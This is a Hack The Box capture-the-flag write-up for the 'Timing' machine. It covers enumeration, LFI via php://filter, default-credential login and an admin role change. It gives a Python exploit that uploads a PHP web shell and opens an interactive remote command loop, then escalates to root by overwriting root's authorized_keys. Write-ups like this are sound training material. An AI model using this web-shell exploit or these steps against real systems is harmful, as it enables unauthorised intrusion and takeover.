 ```yaml
---
layout: single
title: Timing [boot2root] - Hack The Box
date: 2022-1-10
---
```


<h1 align="center">
<img src="/assets/images/htb-writeup-timing/timing-banner.png">
</h1>

Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite.

## Network Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
```


## Directory Enumeartion

```
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/login.php            (Status: 200) [Size: 5609]                               
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
/footer.php           (Status: 200) [Size: 3937]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]  
```

## Fuzz parameters image.php

Fuzzing image.php and find an img parameter which from that we will read other .php files and more. <br><br>
<img src="/assets/images/htb-writeup-timing/fuzzing_parameters.png">


## Identify the user from /etc/passwd using php://filter

Identify the LFI vulnerability but with php://filter because the server not allows us to pass special characters like <b>/../../../</b> Read the /etc/passwd and identify the aaron user.

<img src="/assets/images/htb-writeup-timing/lfi_phpfilter.PNG">

<img src="/assets/images/htb-writeup-timing/aaron_user.PNG">

## Login with aaron for the both box values at login page

Login with aaron user (aaron:aaron)<br><br>
<img src="/assets/images/htb-writeup-timing/login_default_creds.PNG">


## Change user role to admin

When we read the profile_update.php we will see this piece of code which allows us to pass the role=1 parameter and change from user2 to admin. <br><br>
<img src="/assets/images/htb-writeup-timing/rolechange.PNG">

<img src="/assets/images/htb-writeup-timing/change_to_admin.PNG">

<img src="/assets/images/htb-writeup-timing/show_adminpanel.PNG">

## Exploit 

At the exploit part to get the RCE. I create this exploit in python combined with php code which i read it from upload.php with LFI from web server. The upload.php creates a hash and append it in the front of the filename($hash_image.jpg). For the exploit we must to upload and generate at the same to find out the name of the file .

```php
<?php
$upload_dir = "images/uploads/";
$file = "exploit.jpg";

$file_name = md5('$file_hash'. time()) . '_' . $file;
$target_file = $upload_dir . $file_name;
echo $file_name;
echo PHP_EOL;
?>
```

```python
#!/usr/bin/python3
import requests
import os
import time
import threading


#Current URL=http://timing.htb
def upload_post_req():
	burp0_url = "http://timing.htb:80/upload.php"
	burp0_cookies = {"PHPSESSID": "lo4d1l8c8df2b7lgr7vrutethl"} #Change this cookie to our admin cookie
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------358100878512268049331587005052", "Origin": "http://timing.htb", "Connection": "close", "Referer": "http://timing.htb/avatar_uploader.php"}
	burp0_data = "-----------------------------358100878512268049331587005052\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"exploit.jpg\"\r\nContent-Type: txt/php\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------358100878512268049331587005052--\r\n"
	r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
	
def fname_generator():
	print("Running...")
	for i in range(15):
		os.system("php -f fname_generator.php >> output.txt")
		if(i==6):
			threading.Thread(target=upload_post_req).start()
		time.sleep(1)


def response_c(filename):
	VECTOR="http://timing.htb/images/uploads/"
	r=requests.get(VECTOR+str(filename))
	return r.status_code

def injector(filename, cmd):
	VECTOR="http://timing.htb/image.php?img=images/uploads/"
	r=requests.get(VECTOR+filename+"&cmd="+cmd)
	print(r.text)

if __name__ == "__main__":	

	fname_generator()
	
	hash_names=[]
	f = open("output.txt", "r")
	for i in range(15):
		hash_names.append(f.readline().strip("\n"))
	f.close()
	
	for filename in hash_names:
		if str(response_c(filename))=="200":
			os.system("clear")
			print("Success!")
			while(1):
				cmd=input("> ")
				injector(filename, cmd)
				if cmd=="exit":
					break
	
	os.system("rm output.txt")
```

<img src="/assets/images/htb-writeup-timing/run_exploit.png">

<img src="/assets/images/htb-writeup-timing/run_exploit_success.png">


## Download zip backup from /opt folder

Enumerate and download the backup file from opt directory. <br>
<img src="/assets/images/htb-writeup-timing/download_and_unzip.PNG">

## Find git changes and discover aaron ssh password

Find the git changes and login with aaron user to ssh. <Br>
<img src="/assets/images/htb-writeup-timing/git_log_ssh_creds.PNG">

<img src="/assets/images/htb-writeup-timing/login_ssh.PNG">



## Root

At the root part we have perms to run the /usb/bin/netutils with allows us to download a file from http and ftp server. to find out the name of the file <br>
<img src="/assets/images/htb-writeup-timing/sudo_l.PNG">

Example of netutils <br>
<img src="/assets/images/htb-writeup-timing/run_netutils.PNG">

1. Create a symbolic link to /root/.ssh/authorized_keys <br>
2. Create a private and public key in attacking machine. <br>
3. Rename the public key <br>
4. Download the file from timing machine <br>
5. Login from attacking machine with private key to root user.
	<br>
	
	
<img src="/assets/images/htb-writeup-timing/priv_esc.PNG">
